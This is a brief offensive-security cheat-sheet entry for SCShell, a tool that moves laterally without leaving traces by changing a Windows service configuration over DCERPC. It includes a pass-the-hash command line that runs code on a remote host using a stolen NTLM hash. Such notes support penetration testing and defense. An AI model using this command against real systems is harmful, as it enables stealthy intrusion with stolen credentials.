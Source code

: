 # SCShell

% SCShell, psexec, sealthy, DCERPC

## stealty psexec
#plateform/linux #target/remote #cat/ATTACK/CONNECT 

no service created, no smb used, no file dropped
https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain>/<user>@<ip>
```
